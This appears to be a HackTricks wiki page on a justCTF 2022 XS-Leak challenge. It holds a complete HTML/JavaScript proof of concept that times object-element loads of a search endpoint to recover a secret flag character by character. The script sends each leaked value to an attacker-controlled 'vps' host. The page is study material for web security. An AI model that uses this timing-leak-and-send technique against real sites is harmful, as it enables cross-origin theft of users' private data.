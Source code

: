 # performance.now + Force heavy task

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

**Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

In this challenge the user could sent thousands of chars and if the flag was contained, the chars would be sent back to the bot. So putting a big amount of chars the attacker could measure if the flag was containing in the sent string or not.

> [!WARNING]
> Initially, I didn’t set object width and height, but later on, I found that it’s important because the default size is too small to make a difference in the load time.

```html
<!DOCTYPE html>
<html>
  <head> </head>
  <body>
    <img src="https://deelay.me/30000/https://example.com" />
    <script>
      fetch("https://deelay.me/30000/https://example.com")

      function send(data) {
        fetch("http://vps?data=" + encodeURIComponent(data)).catch((err) => 1)
      }

      function leak(char, callback) {
        return new Promise((resolve) => {
          let ss = "just_random_string"
          let url =
            `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=` +
            ss[Math.floor(Math.random() * ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement("object")
          object.width = "2000px"
          object.height = "2000px"
          object.data = url
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log("Error event triggered")
          document.body.appendChild(object)
        })
      }

      send("start")

      let charset = "abcdefghijklmnopqrstuvwxyz_}".split("")
      let flag = "justCTF{"

      async function main() {
        let found = 0
        let notFound = 0
        for (let i = 0; i < 3; i++) {
          await leak("..")
        }
        for (let i = 0; i < 3; i++) {
          found += await leak("justCTF")
        }
        for (let i = 0; i < 3; i++) {
          notFound += await leak("NOT_FOUND123")
        }

        found /= 3
        notFound /= 3

        send("found flag:" + found)
        send("not found flag:" + notFound)

        let threshold = found - (found - notFound) / 2
        send("threshold:" + threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while (true) {
          if (flag[flag.length - 1] === "}") {
            break
          }
          for (let char of charset) {
            let trying = flag + char
            let time = 0
            for (let i = 0; i < 3; i++) {
              time += await leak(trying)
            }
            time /= 3
            send("char:" + trying + ",time:" + time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
    </script>
  </body>
</html>
```

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


